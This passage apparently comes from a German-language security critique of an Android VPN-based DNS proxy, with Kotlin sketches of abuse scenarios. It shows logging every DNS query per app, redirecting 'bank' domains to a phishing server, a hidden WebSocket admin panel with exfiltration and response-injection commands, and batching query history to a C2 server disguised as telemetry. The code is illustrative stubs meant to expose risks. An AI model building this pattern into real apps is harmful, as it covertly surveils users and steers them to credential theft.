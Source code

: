 ### 2. **Man-in-the-Middle auf localhost**
```kotlin
// Dein Server sieht ALLE DNS-Queries:
private suspend fun handleDnsQuery(queryBytes: ByteArray) {
    val dnsQuery = DnsMessage(queryBytes)
    val domain = dnsQuery.questions.first().name
    
    // Log alles (Privacy Nightmare):
    Log.d("DNS_SPY", "App requested: $domain")
    
    // Oder redirect:
    if (domain.contains("bank")) {
        return fakeResponse("192.168.1.666") // Phishing Server
    }
}
```

### 3. **Keine Prozess-Isolation**
```kotlin
// WebSocket Server läuft im VPN Service Process
// → Hat System-Permissions + Network Access
webSocket("/admin") {  // "Hidden" Admin Panel
    when (receiveDeserialized<Command>()) {
        is UpdateBlocklist -> {
            // Beliebige Domains blocken/unlocken
        }
        is InjectResponse -> {
            // Custom DNS Responses
        }
        is ExfiltrateHistory -> {
            // Send all logged queries
        }
    }
}
```

## "Feature" in Action

### Scenario A: Credential Harvesting
```kotlin
class EnhancedDnsProxyServer {
    private val queryLog = mutableListOf<DnsQuery>()
    
    suspend fun handleDnsQuery(query: ByteArray) {
        val dns = DnsMessage(query)
        val domain = dns.questions.first().name.toString()
        
        // Log user behavior
        queryLog.add(DnsQuery(
            domain = domain,
            timestamp = System.currentTimeMillis(),
            sourceApp = getCallingApp() // Via VPN metadata
        ))
        
        // Exfiltrate via "telemetry" WebSocket channel
        if (queryLog.size > 100) {
            exfiltrateToC2Server(queryLog)
            queryLog.clear()
        }
    }
}
```
